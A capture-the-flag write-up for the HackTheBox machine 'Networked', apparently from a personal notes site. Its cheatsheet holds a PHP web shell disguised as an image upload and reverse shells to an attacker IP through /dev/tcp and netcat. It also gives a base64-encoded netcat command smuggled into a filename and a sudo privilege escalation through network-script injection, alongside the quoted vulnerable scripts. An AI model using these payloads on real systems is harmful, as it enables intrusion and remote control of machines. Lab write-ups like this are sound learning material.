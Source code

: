 # Networked \[Easy]

## Report



## Cheatsheet

```
#Understand file checking process using php -a (Interactive mode)
#Apache config vuln a file with .php extension anywhere will execute the PHP code
vim black.php.jpeg
<?php echo "START<br/><br/>\n\n\n"; system($_GET["cmd"]); echo "\n\n\n<br/><br/>END"; ?>
Navigate to uploads/[file]
?cmd=sh%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.3%2F9001%200%3E%261

#Revshell from previous shell to become guly
touch 'c; echo bmMgMTAuMTAuMTQuMyA5MDAyIC1lIC9iaW4vYmFzaA== | base64 -d | sh; d'
(nc 10.10.14.3 9003 -e /bin/bash)
Shell kept dying using sh and encoding via base64 was the only way to get stable shell

#guly
sudo /usr/local/sbin/changename.sh
[random input] /bin/bash
#Vulnerability in editing network scripts leads to privesc
```

{% code title="check_attack.php (This was run as a cronjob)" %}
```php
<?php
require '/var/www/html/lib.php';
$path = '/var/www/html/uploads/';
$logpath = '/tmp/attack.log';
$to = 'guly';
$msg= '';
$headers = "X-Mailer: check_attack.php\r\n";

$files = array();
$files = preg_grep('/^([^.])/', scandir($path));

foreach ($files as $key => $value) {
        $msg='';
  if ($value == 'index.html') {
        continue;
  }
  #echo "-------------\n";

  #print "check: $value\n";
  list ($name,$ext) = getnameCheck($value);
  $check = check_ip($name,$value);

  if (!($check[0])) {
    echo "attack!\n";
    # todo: attach file
    file_put_contents($logpath, $msg, FILE_APPEND | LOCK_EX);

    exec("rm -f $logpath");
    exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &");
    echo "rm -f $path$value\n";
    mail($to, $msg, $msg, $headers, "-F$value");
  }
}

?>

```
{% endcode %}

{% code title="changename.sh" %}
```bash
#!/bin/bash -p
cat > /etc/sysconfig/network-scripts/ifcfg-guly << EoF
DEVICE=guly0
ONBOOT=no
NM_CONTROLLED=no
EoF

regexp="^[a-zA-Z0-9_\ /-]+$"

for var in NAME PROXY_METHOD BROWSER_ONLY BOOTPROTO; do
        echo "interface $var:"
        read x
        while [[ ! $x =~ $regexp ]]; do
                echo "wrong input, try again"
                echo "interface $var:"
                read x
        done
        echo $var=$x >> /etc/sysconfig/network-scripts/ifcfg-guly
done
  
/sbin/ifup guly0

```
{% endcode %}

## Loot

### Creds

None lmao

### Proof

#### Web directory Structure

* backup
* uploads
* upload.php
* gallery.php

backup contains source code, upload.php allows file upload and gallery.php allows to access uploaded files

The check\_ip function in check\_attack.php is from lib.php which checks if the file name is from a valid IP. The name of file uploaded is modified at the time itself based on sender IP.

```
exec("nohup /bin/rm -f $path$value > /dev/null 2>&1 &"
```

This line was vulnerable to path injection, and $path was already defined but not $value

{% embed url="https://vulmon.com/exploitdetails?qidtp=maillist_fulldisclosure&qid=e026a0c5f83df4fd532442e1324ffa4f" %}

### Pitch Notes

For PrivEsc, we couldn't

* add to sudoers >>
* revshell .
* chown root.txt :&#x20;
* cat root.txt .

The regex prevented us from using the following characters

But you can simply span a shell using `/bin/bash`

\

